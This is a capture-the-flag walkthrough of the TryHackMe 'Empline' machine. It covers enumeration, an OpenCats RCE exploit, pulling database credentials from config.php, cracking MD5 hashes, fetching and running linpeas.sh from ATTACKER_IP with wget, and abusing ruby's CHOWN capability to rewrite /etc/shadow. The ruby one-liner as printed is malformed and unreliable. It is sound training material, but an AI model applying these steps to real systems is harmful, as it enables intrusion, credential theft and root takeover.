

## Objective
The challenge is called [Empline](https://tryhackme.com/room/empline). The goal is to compromise the provided machine.
## Information Gathering
We start with the following information:
- **Target machine IP**\*: `TARGET_IP`
- **Attacker machine IP**: `ATTACKER_IP`.

*\*Note: this IP may change due to resets of the target machine.*

We start by enumerating the services exposed by the machine with `nmap`:

We scan the machine with SYN scan (`-sS` option), without resolving DNS (`-n` option) and probing all TCP ports from 1 to 10000 (`-p1-10000` option). We get the following open ports:

- 22;
- 80;
- 3306;

We can further enumerate the found ports to try to identify the version of the services (`-sV` option) and run `nmap` default scripts (`-sC` option):

We find out that on port `80`, as expected, the machine hosts a website.
From the scripts run on port `3306` we can guess that the machine OS is Linux.

We visit the website in our web browser:

The hyperlink *Employment* redirects to http://job.empline.thm/careers. Before we can access that link, we need to update our `/etc/hosts` file in order to associate the domain name with the target IP:

Besides, we can further enumerate the website for potentially exposed folders with `gobuster`:

It doesn't return any relevant information. By running `gobuster` to find other potentially hidden virtualhosts, we don't get any further information either:

## Exploitation

The *Employment* hyperlink directs us to the following page, that runs a web application called **OpenCats**:

We can search for known exploits with `searchsploit opencats` for the application and we find two:

The first exploit looks promising, since it allows us to get RCE. We download it with `searchsploit -m 50585`:

We set its permission to executable (`chmod +x 50585.sh`), we run it and we get a shell:

We run the comman `whoami` and detect that we are the user `www-data`:

## Mantaining access

We look around to try to find potential privilege escalation vectors. We list the contents of directory `/home` and we find two users:

In the `/var/www/opencats/` folder we find a configuration file named `config.php`:

If we read this file with `cat /var/www/opencats/config.php` we find some credentials for a database:

The credentials are `james:PASSWORD` (just a placeholder used in this writeup instead of the real password) and the database name is `opencats`. We can use this information to connect to the MySQL service with `mysql -u james -p'PASSWORD' -D opencats -h 10.10.83.205`:

The connection is successful. In the newly acquired SQL shell we run the command `show tables;` to view all the tables in the current database; the table `user` seems interesting.

We can see the column names of the table with `describe user;`:

The fields `user_name` and `password` look interesting, so we can retrieve these information with a simple `SELECT` statement: `select user_name,password from user;`:

We get four users. With a simple Google search we can find out that OpenCats stores the MD5 hash of the passwords. We can verify this by calculating the MD5 hash of the password that we got for the user `james`. Running the simple command `echo -n "PASSWORD" | md5sum` gives us the same result stored in the database, therefore the MD5 hashes are used:

We can try to get the plain text password using John the Ripper. We save the hashes in a file (in the screenshot below only the hash of user `george` is saved) and try crack it using the `rockyou.txt` wordlist.

We get the password `GEORGE_PASSWORD` (just a placeholder used in this writeup instead of the real password). We can now try to elevate our privilege by loggin in by SSH with the user `george` and the found password: `ssh george@TARGET_IP`. We get a shell:

We find the user flag in the home directory: `cat user.txt`:

Now we can try to elevate our privileges to `root`. To find possible privilege escalation vectors, we can run `linpeas.sh`. In order to get it on the target machine, we host a simple Python server on the attacker machine with `sudo python -m http.server 80` in the folder where `linpeas.sh` is stored:

Then, on the SSH session, we download it with `wget http://ATTACKER_IP/linpeas.sh` and we execute it with `/bin/sh linpeas.sh`. The script finds, among many things, the following interesting setting:

It means that `ruby` has the CHOWN capability, that means that it can change files ownership. We can abuse this capability to get root access.

The idea is to modify `root` password in order to set one of our choosing. In order to do that, we need permission to modify the `/etc/shadow` file, which is where the hashes of the password are stored. We can abuse the `ruby`  capability to do that with the command `ruby -e "require 'fileutils'; fileutils.chown 'george' 'george' '/etc/shadow'"`. We can now print the first line of the file, which means that its owner is now `george`:

Now we compute the hash of the password `password`, that is the password that we want to assign to the `root` user.

We now modify the `/etc/shadow` file with an inline editor like `vim` replacing the old hash with the new hash value.

Finally, we can login as `root` with the password we set, i.e. `password` and get the flag `root.txt`.

